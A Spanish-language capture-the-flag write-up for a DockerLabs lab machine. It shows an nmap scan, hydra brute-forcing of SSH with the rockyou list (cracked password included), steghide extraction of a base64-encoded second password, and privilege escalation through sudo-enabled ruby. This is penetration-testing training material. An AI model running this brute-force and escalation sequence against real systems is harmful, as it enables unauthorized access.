





[[Writeups]]
#Writeups #Easy #DockerLabs


Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:01 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
```

Vamos a ver la web:



Vemos varios mensajes de ataques de phising, programas desactualziados, contraseñas débiles e incluso despidos por enviar contraseñas por correos, en esta empresa se respira amor.

Vemos que en el mensaje de despedida dicen dos nombres, Juan y Carlota, probe estos dos usuarios con el rockyou usando hydra en el ssh y carlota me dio un caso positivo:

```bash
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 22:08:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```

```ruby
login: carlota   password: babygirl
```

Probamos las credenciales manualmente y obtenemos acceso como carlota:

```bash
❯ ssh carlota@172.17.0.2
carlota@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 27 20:29:06 2024 from 172.17.0.1
$ whoami
carlota
$ 

```

Como se puede ver, indagando por los archivos de carlota vemos que tiene una imagen.jpg en la ruta **/Desktop/fotos/vacaciones**

```bash
carlota@88f972cc934c:~$ ls
Desktop
carlota@88f972cc934c:~$ cd Desktop
carlota@88f972cc934c:~/Desktop$ ls
fotos
carlota@88f972cc934c:~/Desktop$ cd fotos
carlota@88f972cc934c:~/Desktop/fotos$ ls
vacaciones
carlota@88f972cc934c:~/Desktop/fotos$ cd vacaciones
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
```

Si tenemos python en nuestra temrinal de carlota seremos capaces de pasarnos el archivo a nuestro terminal local a traves de un servidor de python:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3
Python 3.12.3 (main, Apr 10 2024, 05:33:47) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exit()
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
172.17.0.1 - - [27/May/2024 20:35:32] "GET / HTTP/1.1" 200 -
172.17.0.1 - - [27/May/2024 20:35:32] code 404, message File not found
172.17.0.1 - - [27/May/2024 20:35:32] "GET /favicon.ico HTTP/1.1" 404 -
172.17.0.1 - - [27/May/2024 20:35:36] "GET /imagen.jpg HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ 
```

Vemos que tenemos python así que creamos en la ruta base de la imagen el servidor y en el navegador ponemos la dirección con el puerto abierto:



damos click a la imagen, click derecho y guardamos donde queramos, ahora vamos a ver los metadatos de dicha imagen:

```bash
#Terminal de mi equipo local con la imagen descargada:

❯ steghide --extract -sf imagen.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secret.txt".
❯ ls
 imagen.jpg  secret.txt
❯ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24=
```

Parece un código cifrado en base 64, vamos a la web dCode y vemos los resultados:



Obtenemos el texto:

```
eslacasadepinypon
```

Podría ser la contraseña de otro usuario, vamos a ver el etc/passwd y si hay otro usuario probamos un su con la contraseña encontrada:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlota:x:1001:1001::/home/carlota:/bin/sh
oscar:x:1002:1002::/home/oscar:/bin/sh
```

Vemos que existe el usuario oscar, así que hacemos el su a oscar:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ su oscar
Password: 
$ whoami
oscar
```

Ahora hacemos una enumeracion de permisos sudo :

```bash
$ sudo -l
Matching Defaults entries for oscar on 88f972cc934c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 88f972cc934c:
    (ALL) NOPASSWD: /usr/bin/ruby
$
```

Vemos en gtfobins el comando para ruby :



lo ponemos y obtenemos root:


